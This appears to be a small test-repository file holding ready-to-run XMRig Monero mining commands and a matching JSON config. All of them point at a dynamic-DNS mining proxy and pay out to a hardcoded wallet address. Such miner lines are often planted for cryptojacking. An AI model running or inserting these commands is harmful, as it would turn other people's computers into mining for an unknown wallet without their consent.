 # testrepo_dc5fd69b6b1e91ccdec88a4.html
only for testing
info1=xmrig.exe -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
info2=./xmrig -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
info3=
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "coin": "monero",
            "algo": "rx/0",
            "url": " proxy-60333.mywire.org:60333",
            "user": "89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe",
            "pass": "x",
            "tls": false,
            "keepalive": true,
            "nicehash": false
        }
    ]
}


